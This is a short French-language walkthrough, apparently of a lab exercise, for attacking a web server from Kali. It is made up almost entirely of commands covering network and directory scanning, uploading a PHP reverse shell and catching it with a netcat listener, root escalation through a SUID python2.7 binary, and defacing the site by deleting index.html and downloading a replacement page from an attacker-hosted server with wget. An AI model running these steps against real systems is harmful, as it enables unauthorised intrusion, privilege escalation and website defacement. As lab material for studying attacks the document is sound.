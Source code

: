 # Attaque depuis kali:

## Reconnaissance

> nmap 192.168.60.0/24

On trouve un serveur http sur le port 80 sur 192.168.60.10

Visite du site web via le navigateur, on trouve notamment que le serveur utilise php

> dirb http://192.168.60.10/

> dirb http://192.168.60.10/ -X .php

Avec dirb on a trouvé les pages /upload.php et /uploads

## Reverse shell

Upload de shell.php depuis /upload.php

Attente du reverse shell depuis kali:

> nc -nlvp 9001

Ouvrir shell.php dans /uploads

## Escalade de privilèges

Trouver les fichiers avec SUID d'activé:

> find / -perm -u=s -type f 2>/dev/null

Utiliser python pour l'escalade:

> cd /usr/bin

> ./python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

Vérifier qu'on est root:

> whoami

## Défiguration

Depuis le reverse shell:

> cd /var/www/html

Vérifier qu'on est dans le bon dossier:

> ls 

Depuis un nouveau terminal kali, depuis le dossier server sur le bureau, lancher un serveur pour transférer les fichiers:

> python -m SimpleHTTPServer

Depuis le reverse shell, supprimer index.html, puis télécharger les fichiers nécessaires à afficher la nouvelle page d'accueil:

> rm index.html

> wget http://192.168.60.11:8000/index.html

> wget http://192.168.60.11:8000/hacker.gif
